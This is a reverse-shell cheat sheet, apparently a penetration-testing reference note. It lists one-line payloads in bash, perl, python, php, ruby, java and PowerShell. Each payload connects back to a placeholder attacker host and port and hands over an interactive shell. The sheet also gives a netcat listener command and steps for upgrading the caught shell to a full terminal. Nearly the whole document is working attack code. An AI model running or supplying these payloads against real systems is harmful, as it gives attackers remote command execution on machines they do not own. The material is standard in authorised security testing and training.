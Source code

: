 # reverse shell

%reverse shell, reverse
#plateform/linux #target/local #cat/ATTACK/REVERSE_SHELL 

## bash reverse shell
```
bash -i >& /dev/tcp/<lhost>/<lport> 0>&1
```

## perl reverse shell
```
perl -e 'use Socket;$i="<lhost>";$p=<lport>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## python reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<lhost>",<lport>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## php reverse shell
```
php -r '$sock=fsockopen("<lhost>",<lport>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## ruby reverse shell
```
ruby -rsocket -e'f=TCPSocket.open("<lhost>",<lport>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## [[java]] reverse shell
```java
r = Runtime.getRuntime();p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<lhost>/<lport>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);p.waitFor()
```

## [[Arsenal/Windows/powershell]] reverse shell
```powershell
 $client = New-Object System.Net.Sockets.TCPClient('<lhost>',<lport>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## windows listener autocompletion
```
rlwramp nc -nlvp <port>
```

## interactive reverse shell - and Ctrl+Z (1) 
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## interactive reverse shell - on host - and do fg (2)
```
stty raw -echo
```

## interactive reverse shell - on reverse (3)
```
reset
stty rows <ROWS> cols <COLS>
export TERM=xterm-256color
```
